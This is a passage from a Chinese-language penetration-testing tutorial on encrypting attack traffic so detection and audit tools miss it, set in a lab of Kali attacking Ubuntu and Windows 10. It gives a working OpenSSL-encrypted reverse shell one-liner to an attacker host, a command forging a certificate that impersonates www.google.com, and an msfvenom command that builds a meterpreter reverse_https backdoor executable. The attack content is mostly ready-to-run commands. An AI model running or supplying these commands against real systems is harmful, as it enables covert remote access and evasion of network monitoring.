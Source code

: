 ```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DdBHlxoYp0sLdplGtia1iaOZ4ghGxjx35tAXTfYiaU2U3mMdPusVw3Wiaog/640?wx_fmt=png)  

如上图所示，攻击机 kali 上成功拿到了 Ubuntu 的 shell。

此时再次在受害机 Ubuntu 上使用 wireshark 抓包，然后攻击机对 Ubuntu 执行一波命令，即可抓到二者之间通信的数据包：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DcVzw0YPKlKc4bKR7JJ3QSZeKexfoDwzVW9l1nO94cVg6aM1Bia8VHyw/640?wx_fmt=png)

随便追踪一个 TCP 流进行分析：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7Drcs4d4KEe4bj5CNxZB7tFgg1f92vp0IffsoW5W2FPd8gHlScCy8t9w/640?wx_fmt=png)

可见此时看到的信息都是乱码，二者之间的通信经过了加密。

Metasploit 流量加密
---------------

*   实验环境：Kali Linux 攻击 Windows 10
    

Metasploit 在内网做横行渗透时，这些流量很容易就能被检测出来，所以做好流量加密，就能避免审计工具检测出来。下面开始演示如何对 Metasploit 进行流量加密。

1.  ### 使用 OpenSSL 创建 SSL/TLS 证书
    

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
-subj "/C=UK/ST=London/L=London/O=Development/CN=www.google.com" \
-keyout www.google.com.key \
-out www.google.com.crt && \
cat www.google.com.key www.google.com.crt > www.google.com.pem && \
rm -f www.google.com.key www.google.com.crt
```

这里模拟的是 google 的 SSL 证书信息，也可以自行修改可信度高的证书。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DibyCicUVtWtibGZClklK2slnZffcMLFia7KpbyhwFZZsCiaPLo4tXPsSFoQ/640?wx_fmt=png)

检查 google 的 key 生成情况：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicmBN9C7t4jDcvStkHr5V7DHY5AFjjATHfvSvm3ib3sGmX5icgeDBvVnxfWicpzfzyH1JAPj4XBwGMEw/640?wx_fmt=png)

正常。

### 2. 生成后门

创建完证书后，我可以为其创建 HTTP 或 HTTPS 类型的有效负载，并为其提供 PEM 格式的证书以用于验证连接。

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 PayloadUUIDTracking=true PayloadUUIDName=Whoamishell HandlerSSLCert=/root/www.google.com.pem StagerVerifySSLCert=true -f exe -o shell.exe
```
